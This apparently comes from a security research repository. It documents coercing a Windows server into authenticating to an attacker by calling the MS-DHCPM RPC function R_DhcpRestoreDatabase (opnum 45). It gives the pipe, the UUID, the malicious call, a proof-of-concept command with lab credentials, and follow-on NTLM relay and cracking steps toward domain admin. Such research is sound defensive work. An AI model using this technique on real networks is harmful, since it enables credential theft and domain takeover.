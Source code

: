 # MS-DHCPM - Remote call to R_DhcpRestoreDatabase (opnum 45)

## Summary

+ **Protocol**: [[MS-DHCPM]: Microsoft Dynamic Host Configuration Protocol (DHCP) Server Management Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dhcpm/d117857c-1491-46a2-a68e-c844be3627d4)

+ **Protocol UUID**: 6bffd098-a112-3610-9833-46c3f874532d

+ **Protocol version**: 1.0

+ **SMB Named pipe**: `\PIPE\DHCPSERVER`

+ **Function name**: [`R_DhcpRestoreDatabase`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dhcpm/ed387010-a226-4719-964b-c9ee8bc0f302)

+ **Function operation number**: `45`

+ **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `\PIPE\DHCPSERVER` and bind to the desired [`MS-DHCPM`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dhcpm/d117857c-1491-46a2-a68e-c844be3627d4) protocol (with uuid `6bffd098-a112-3610-9833-46c3f874532d` and version `1.0`) in order to perform remote procedure calls to functions in the [`MS-DHCPM`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dhcpm/d117857c-1491-46a2-a68e-c844be3627d4) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `\PIPE\DHCPSERVER` This pipe is connected to the protocol [[MS-DHCPM]: Microsoft Dynamic Host Configuration Protocol (DHCP) Server Management Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dhcpm/d117857c-1491-46a2-a68e-c844be3627d4) and allows to call RPC functions of this protocol. We will then call the remote [`R_DhcpRestoreDatabase`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dhcpm/ed387010-a226-4719-964b-c9ee8bc0f302) function on the remote Windows Server (192.168.2.1) with the following parameters:

```cpp
R_DhcpRestoreDatabase('192.168.2.51\x00')
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!


## Function technical detail

```cpp
DWORD R_DhcpRestoreDatabase(
   [in, unique, string] DHCP_SRV_HANDLE ServerIpAddress,
   [in, string] LPWSTR Path
 );
```

## References

+ Documentation of protocol [MS-DHCPM]: Microsoft Dynamic Host Configuration Protocol (DHCP) Server Management Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dhcpm/d117857c-1491-46a2-a68e-c844be3627d4

+ Documentation of function `R_DhcpRestoreDatabase`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dhcpm/ed387010-a226-4719-964b-c9ee8bc0f302